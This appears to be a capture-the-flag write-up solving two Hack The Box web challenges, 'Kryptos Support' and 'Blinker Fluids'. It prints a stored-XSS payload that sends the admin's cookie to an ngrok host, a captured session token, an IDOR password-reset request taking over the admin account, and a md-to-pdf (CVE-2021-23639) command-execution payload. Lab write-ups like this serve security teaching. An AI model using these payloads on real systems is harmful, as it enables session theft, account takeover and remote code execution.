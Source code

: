 ```yaml
---
title: Cyber Apocalypse 2023 2x Web Challenges Writeup
date: 2022-05-18 12:00:00 -0400
image: 
 path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf0.jpg
 height: 3000
 width: 450
categories: [HTB Writeups, Cyber Apocalypse CTF]
tags: [web security, ctf, owasp]
---
```


# Kryptos Support

Checking the web page of this challenge gives a form to send an issue and an admin will review that issue.
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf1.jpg)

So its interesting, maybe the admin will click in that issue and we can inject some kind of payload, like an stored xss, these approach is similar to the bankrobber box in htb.

So we can craft the payload to steal the cookie of the admin or the user who will review out ticket.

```bash
<script> var i=new Image(); i.src='https://yourip.sa.ngrok.io?cookie='+escape(document.cookie);</script>
```

After set up our ngrok proxy and netcat listening in one port, with this payload we can steal the reviewer account cookie.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf2.jpg)

We receive the response and the cookie 
``` bash
session=DeyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTMwMjI3OTZ9.KpxQxzNncJfI12UlhXA3t7Li8TOB18dNr0FmMCb0ksA
```

So we can create a cookie with the name session and copy the value.

From the files we can see that one directory is tickets, so i try to enter and we can see we are moderator

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf3.jpg)

We see a function to reset a password, maybe we can try an IDOR for User Account Takeover changing the password of admin. Intercepting the request to the reset password function, we can change the uid from 100 to 1, and resend with our password.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf5.jpg)

```json
{"password":"jesus","uid":"1"}
```

And finally we can login as admin with our password and see our flag

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf4.jpg)

`HTB{x55_4nd_id0rs_ar3_fun!!}`

# Blinker Fluids
Checking the web page of this challenge i can see an invoice list, i can edit, delete and export an invoice in pdf format, an interesting thing is that we submit the invoice in markdown and its converted to pdf, so lets check the source code.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf6.jpg)

We see the add function calls mdhelper to convert the markdown file to pdf, so checking mdhelper.js file we see this:

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf8.jpg)

We see that is using the `md-to-pdf` node module so with some research on google i found this [Synk Vuln DB: CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) 

Code of the POC:

``` javascript
const { mdToPdf } = require('md-to-pdf');

var payload = '---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE';

```

Then i change the payload to copy the flag, which is in the root directory to the invoice of default in the directory static/invoices, so the payload was:

``` javascript
---javascript
((require("child_process")).execSync("cp /flag.txt /app/static/invoices/f0daa85f-b9de-4b78-beff-2f86e242d6ac.pdf")
---RCE
```
Then when i open the invoice it gives me an error, but in dev tools i can see the base64 string which is the flag.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf9.jpg)

`HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}`


Thanks for read, Happy Hacking!




